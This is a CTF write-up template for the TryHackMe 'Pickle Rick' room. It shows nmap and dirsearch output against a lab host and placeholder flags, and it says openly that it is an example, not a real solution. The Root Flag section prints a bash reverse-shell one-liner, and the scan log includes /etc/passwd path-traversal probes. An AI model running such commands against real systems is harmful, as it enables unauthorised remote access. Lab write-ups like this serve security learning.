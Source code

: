```yaml
---
title: "tryhackme - picklerick"
author: 0r10nh@ck
date: "2021-06-15"
subject: "CTF Writeup Template"
keywords: [CTF, tryhackme, Security]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true

...
```


<= [HOME](./../../index.md)

# Pickle Rick

![pick](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

A Rick and Morty CTF. Help turn Rick back into a human!

> https://tryhackme.com/room/picklerick

# Information Gathering

My first step was to check the application's source code.
Found the following comment:

```html
<!--

     Note to self, remember username!

     Username: R1ckRul3s

   -->
```

### Nmap

We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
$ nmap -v 10.10.133.253             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-11 13:09 -03
Initiating Ping Scan at 13:09
Scanning 10.10.133.253 [2 ports]
Completed Ping Scan at 13:09, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:09
Completed Parallel DNS resolution of 1 host. at 13:09, 0.16s elapsed
Initiating Connect Scan at 13:09
Scanning 10.10.133.253 [1000 ports]
Discovered open port 22/tcp on 10.10.133.253
Discovered open port 80/tcp on 10.10.133.253
Increasing send delay for 10.10.133.253 from 0 to 5 due to 31 out of 101 dropped probes since last increase.
Increasing send delay for 10.10.133.253 from 5 to 10 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.133.253 from 10 to 20 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.133.253 from 20 to 40 due to max_successful_tryno increase to 6
Completed Connect Scan at 13:10, 54.30s elapsed (1000 total ports)
Nmap scan report for 10.10.133.253
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 55.00 seconds

```

Scanning the specifics ports:

```console
$ nmap -v -sV -p 22,80 10.10.133.253
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-11 13:11 -03
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 13:11
Scanning 10.10.133.253 [2 ports]
Completed Ping Scan at 13:11, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:11
Completed Parallel DNS resolution of 1 host. at 13:11, 0.11s elapsed
Initiating Connect Scan at 13:11
Scanning 10.10.133.253 [2 ports]
Discovered open port 22/tcp on 10.10.133.253
Discovered open port 80/tcp on 10.10.133.253
Completed Connect Scan at 13:11, 0.25s elapsed (2 total ports)
Initiating Service scan at 13:11
Scanning 2 services on 10.10.133.253
Completed Service scan at 13:11, 6.58s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.133.253.
Initiating NSE at 13:11
Completed NSE at 13:11, 1.23s elapsed
Initiating NSE at 13:11
Completed NSE at 13:11, 1.01s elapsed
Nmap scan report for 10.10.133.253
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.23 seconds
```
From the above output we can see that ports, **22**, and **80** are the ports open. This is just an example to show code formatting so who cares.

### Content Discovery

Using dirsearch:

```console
$ dirsearch -u http://10.10.133.253 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10991

Output File: /usr/share/sniper/plugins/dirsearch/reports/10.10.133.253/_22-06-11_13-30-52.txt

Error Log: /usr/share/sniper/plugins/dirsearch/logs/errors-22-06-11_13-30-52.log

Target: http://10.10.133.253/

[13:30:52] Starting: 
[13:30:56] 400 -  305B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[13:31:05] 403 -  299B  - /.ht_wsr.txt
[13:31:05] 403 -  303B  - /.htaccess_extra
[13:31:05] 403 -  301B  - /.htaccessOLD2
[13:31:05] 403 -  300B  - /.htaccessBAK
[13:31:05] 403 -  300B  - /.htaccessOLD
[13:31:05] 403 -  300B  - /.htaccess_sc
[13:31:05] 403 -  302B  - /.htaccess_orig
[13:31:05] 403 -  292B  - /.htm
[13:31:05] 403 -  293B  - /.html
[13:31:05] 403 -  302B  - /.htaccess.orig
[13:31:05] 403 -  304B  - /.htaccess.sample
[13:31:05] 403 -  302B  - /.htaccess.save
[13:31:05] 403 -  302B  - /.htaccess.bak1
[13:31:05] 403 -  299B  - /.httr-oauth
[13:31:05] 403 -  298B  - /.htpasswds
[13:31:05] 403 -  302B  - /.htpasswd_test
[13:31:10] 403 -  292B  - /.php
[13:31:10] 403 -  293B  - /.php3
[13:32:09] 200 -    2KB - /assets/
[13:32:09] 301 -  315B  - /assets  ->  http://10.10.133.253/assets/
[13:32:18] 400 -  305B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[13:32:49] 200 -    1KB - /index.html
[13:32:58] 200 -  882B  - /login.php
[13:33:30] 200 -   17B  - /robots.txt
[13:33:33] 403 -  302B  - /server-status/
[13:33:33] 403 -  301B  - /server-status

Task Completed

```
---

## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)